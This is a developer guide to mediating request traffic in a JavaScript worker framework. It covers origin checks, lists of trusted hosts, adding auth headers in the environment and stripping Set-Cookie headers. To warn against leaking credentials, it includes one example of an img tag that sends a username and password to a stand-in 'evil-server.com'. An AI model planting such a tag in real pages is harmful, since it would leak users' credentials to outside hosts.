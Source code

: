 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.request = function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.request(request);
};
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.request` rather than `Link.request`.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps <a target="_top" href="http://stevenlevithan.com/demo/parseuri/js/">Stephen Levithan's parseUri</a>, a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parseUri(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.request(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.request(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive <a target="_top" href="https://developer.mozilla.org/en-US/docs/Security/CSP">Content Security Policies</a>, the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.request = function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(origin, request));
	}
	// ...
};
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.request = function(origin, request) {
	//...
	// dispatch the request
	return Link.request(request)
		.then(function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		})
		.except(function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		})
};
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](../lib/environment.md)
